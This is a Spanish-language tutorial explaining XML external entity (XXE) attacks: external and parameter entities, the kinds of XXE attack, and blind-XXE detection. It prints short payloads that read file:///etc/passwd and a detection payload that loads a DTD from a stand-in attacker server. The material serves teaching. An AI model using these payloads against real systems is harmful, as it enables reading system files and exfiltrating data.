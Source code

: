 Las entidades externas XML son un tipo de entidad personalizada cuya definición se encuentra fuera de la DTD donde se declaran. Para la declaración de una entidad externa se usa la palabra clave SYSTEM y se debe especificar una URL desde la cual se debe cargar el valor de la entidad. 
```
<!ENTITY ext SYSTEM "http://nautilusshield.com" >
```
La URL también puede usar el protocole file://, para cargar la entidad desde un archivo.
```
<!ENTITY ext SYSTEM "file:///etc/passwd" >
```
* #### Entidades de parámetros

A veces, los ataques XXE que utilizan entidades regulares se bloquean debido a alguna validación de la entrada por parte de la aplicación o alguna configuración del analizador XML que se está utilizando. En este caso, es posible que se pueda utilizar entidades de parámetros XML en su lugar. Las entidades de parámetros XML son un tipo especial de entidad XML a la que solo se puede hacer referencia en otro lugar dentro de la DTD. Para los propósitos actuales, solo se necesita saber dos cosas. Primero, la declaración de una entidad de parámetro XML incluye el carácter de porcentaje antes del nombre de la entidad.
```
<!ENTITY % nombre "Martin Palermo" >
```
Y, en segundo lugar, se hace referencia a las entidades de parámetros mediante el carácter de porcentaje en lugar del signo ampersand habitual.
```
%nombre;
```
### Resumiendo

\<\!<span style="color:darkolivegreen">DOCTYPE test</span> \[ \<\!<span style="color:pink">ENTITY \% xxe</span><span style="color:brown"> SYSTEM "file:///etc/passwd"</span>\> \]\>

* Con la etiqueta <span style="color:darkolivegreen">DOCTYPE</span> especificamos el nombre del DTD.
* Con la etiqueta <span style="color:pink">ENTITY</span> especificamos el nombre de la entidad; el carácter % nos indica que la entidad es de parámetros.
* Para concluir, la etiqueta <span style="color:brown">SYSTEM</span> nos indica que nuestra entidad de parámetros es externa y su valor contiene el fichero /etc/passwd.
## ¿Cuáles son los tipos de ataques XXE?

* **Explotación de XXE para recuperar archivos,** donde se define una entidad externa que contiene el contenido de un archivo y se devuelve en la respuesta de la aplicación.
* **Explotación de XXE para realizar ataques SSRF,** donde se define una entidad externa basada en una URL a un sistema back-end.
* **Aprovechar el blind XXE para recuperar datos a través de mensajes de error,** donde un atacante puede generar un mensaje de error de procesamiento que desencadene en la exfiltración de datos confidenciales.
* **La explotación de blinds XXE exfiltrando datos fuera de banda,** donde los datos confidenciales se transmiten desde el servidor de aplicaciones a un sistema que controla el atacante. Este último ataque es en el que se hará énfasis.
## Detección de blind XXE  
Definimos una entidad externa de la siguiente manera
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://attackerserver.com/evil.dtd"> ]>
```
Deberíamos ver algunas interacciones DNS y/o HTTP que fueron iniciadas por la aplicación como resultado de la carga maliciosa.
